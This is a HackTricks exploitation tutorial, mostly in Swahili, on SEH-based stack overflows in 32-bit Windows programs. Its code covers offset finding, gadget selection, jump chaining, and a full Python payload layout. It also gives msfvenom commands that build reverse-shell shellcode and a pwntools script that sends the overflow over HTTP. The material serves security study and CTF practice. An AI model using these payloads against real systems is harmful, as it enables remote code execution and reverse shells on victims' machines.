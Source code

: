 # Windows SEH-based Stack Overflow Exploitation (nSEH/SEH)

{{#include ../../banners/hacktricks-training.md}}

Utekelezaji wa SEH-based ni mbinu ya kawaida ya x86 Windows inayotumia mnyororo wa Structured Exception Handler uliohifadhiwa kwenye stack. Wakati stack buffer overflow inapobandika juu nywanja mbili za 4-byte

- nSEH: pointer to the next SEH record, and
- SEH: pointer to the exception handler function

mshambuliaji anaweza kuchukua udhibiti wa utekelezaji kwa:

1) Kuweka SEH kwa anwani ya gadget ya POP POP RET katika module isiyo na ulinzi, ili wakati exception itakapotumwa gadget irudie ndani ya bytes zinazo-dhibitiwa na mshambuliaji, na
2) Kutumia nSEH kupeleka tena utekelezaji (kawaida jump fupi) kurudi kwenye buffer kubwa iliyovuja ambapo shellcode inapatikana.

Mbinu hii ni maalum kwa michakato ya 32-bit (x86). Katika mifumo ya kisasa, chagua module bila SafeSEH na ASLR kwa ajili ya gadget. Wahusika wabaya mara nyingi ni 0x00, 0x0a, 0x0d (NUL/CR/LF) kutokana na C-strings na HTTP parsing.

---

## Finding exact offsets (nSEH / SEH)

- Crash the process and verify the SEH chain is overwritten (e.g., in x32dbg/x64dbg, check the SEH view).
- Send a cyclic pattern as the overflowing data and compute offsets of the two dwords that land in nSEH and SEH.

Example with peda/GEF/pwntools on a 1000-byte POST body:
```bash
# generate pattern (any tool is fine)
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
# or
python3 -c "from pwn import *; print(cyclic(1000).decode())"

# after crash, note the two 32-bit values from SEH view and compute offsets
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x32424163   # nSEH
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x41484241   # SEH
# ➜ offsets example: nSEH=660, SEH=664
```
Thibitisha kwa kuweka alama katika nafasi hizo (e.g., nSEH=b"BB", SEH=b"CC"). Weka urefu mzima usibadilike ili kufanya crash iweze kurudiwa.

---

## Kuchagua POP POP RET (SEH gadget)

Unahitaji mfululizo wa POP POP RET ili kufungua fremu ya SEH na kurudi kwenye bytes zako za nSEH. Iipatie katika module isiyo na SafeSEH na ikiwezekana isiyo na ASLR:

- Mona (Immunity/WinDbg): `!mona modules` kisha `!mona seh -m modulename`.
- x64dbg plugin ERC.Xdbg: `ERC --SEH` kwa kuorodhesha POP POP RET gadgets na hali ya SafeSEH.

Chagua anwani ambayo haina badchars unapoandika little-endian (mfano, `p32(0x004094D8)`). Tendea kipaumbele gadgets ndani ya vulnerable binary ikiwa protections zinaruhusu.

---

## Mbinu ya kuruka-nyuma (short + near jmp)

nSEH ni 4 bytes tu, ambayo inakidhi angalau short jump ya 2-byte (`EB xx`) pamoja na padding. Ikiwa lazima uruke nyuma mamia ya bytes kufikia mwanzo wa buffer yako, tumia 5-byte near jump iliyowekwa kabla ya nSEH na ui-chain nayo kwa short jump kutoka nSEH.

With nasmshell:
```text
nasm> jmp -660           ; too far for short; near jmp is 5 bytes
E967FDFFFF
nasm> jmp short -8       ; 2-byte short jmp fits in nSEH (with 2 bytes padding)
EBF6
nasm> jmp -652           ; 8 bytes closer (to account for short-jmp hop)
E96FFDFFFF
```
Wazo la muundo wa payload ya 1000-byte yenye nSEH kwenye offset 660:
```python
buffer_length = 1000
payload  = b"\x90"*50 + shellcode                    # NOP sled + shellcode at buffer start
payload += b"A" * (660 - 8 - len(payload))           # pad so we are 8 bytes before nSEH
payload += b"\xE9\x6F\xFD\xFF\xFF" + b"EEE"     # near jmp -652 (5B) + 3B padding
payload += b"\xEB\xF6" + b"BB"                      # nSEH: short jmp -8 + 2B pad
payload += p32(0x004094D8)                           # SEH: POP POP RET (no badchars)
payload += b"D" * (buffer_length - len(payload))
```
Mtiririko wa utekelezaji:
- Hitilafu inatokea, dispatcher anatumia SEH iliyobadilishwa.
- POP POP RET inaendelea hadi nSEH yetu.
- nSEH inatekeleza `jmp short -8` kwenye 5-byte near jump.
- Near jump inaelekezwa mwanzoni mwa buffer yetu ambapo NOP sled + shellcode zinakaa.

---

## Bad characters

Jenga string kamili ya badchar na linganisha kumbukumbu ya stack baada ya crash, ukiondoa bytes ambazo zimeharibika au kubadilishwa na parser ya target. Kwa overflow zinazotegemea HTTP, `\x00\x0a\x0d` karibu daima zinatengwa.
```python
badchars = bytes([x for x in range(1,256)])
payload  = b"A"*660 + b"BBBB" + b"CCCC" + badchars  # position appropriately for your case
```
---

## Shellcode generation (x86)

Tumia msfvenom na badchars zako. NOP sled ndogo husaidia kuvumilia tofauti za mahali pa kutua.
```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
-b "\x00\x0a\x0d" -f python -v sc
```
Ikiwa unazalisha kwa wakati halisi, muundo wa hex ni rahisi kuingiza na ku-unhex katika Python:
```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
-b "\x00\x0a\x0d" -f hex
```
---

## Kupeleka kupitia HTTP (CRLF sahihi + Content-Length)

Wakati vektori dhaifu ni HTTP request body, unda raw request yenye CRLFs sahihi na Content-Length ili server isome kikamilifu body yote inayozidi.
```python
# pip install pwntools
from pwn import remote
host, port = "<TARGET_IP>", 8080
body = b"A" * 1000  # replace with the SEH-aware buffer above
req = f"""POST / HTTP/1.1
Host: {host}:{port}
User-Agent: curl/8.5.0
Accept: */*
Content-Length: {len(body)}
Connection: close

""".replace('\n','\r\n').encode() + body
p = remote(host, port)
p.send(req)
print(p.recvall(timeout=0.5))
p.close()
```
---

## Zana

- x32dbg/x64dbg ili kuona mnyororo wa SEH na kufanya triage ya crash.
- ERC.Xdbg (x64dbg plugin) kuorodhesha SEH gadgets: `ERC --SEH`.
- Mona kama mbadala: `!mona modules`, `!mona seh`.
- nasmshell kuassemble short/near jumps na kunakili raw opcodes.
- pwntools kutengeneza precise network payloads.

---

## Vidokezo na tahadhari

- Inatumika tu kwa processes za x86. x64 inatumia SEH scheme tofauti na SEH-based exploitation kwa ujumla si viable.
- Pendelea gadgets zilizomo kwenye modules zisizo na SafeSEH na ASLR; vinginevyo, tafuta module isiyo na ulinzi iliyopakiwa kwenye process.
- Service watchdogs zinazorestart kiotomatiki baada ya crash zinaweza kurahisisha iterative exploit development.

## Marejeo
- [HTB: Rainbow – SEH overflow to RCE over HTTP (0xdf)](https://0xdf.gitlab.io/2025/08/07/htb-rainbow.html)
- [ERC.Xdbg – Exploit Research Plugin for x64dbg (SEH search)](https://github.com/Andy53/ERC.Xdbg)
- [Corelan – Exploit writing tutorial part 7 (SEH)](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-7-unicode-0day-buffer-overflow-seh-and-venetian-shellcode/)
- [Mona.py – WinDbg/Immunity helper](https://github.com/corelan/mona)

{{#include ../../banners/hacktricks-training.md}}
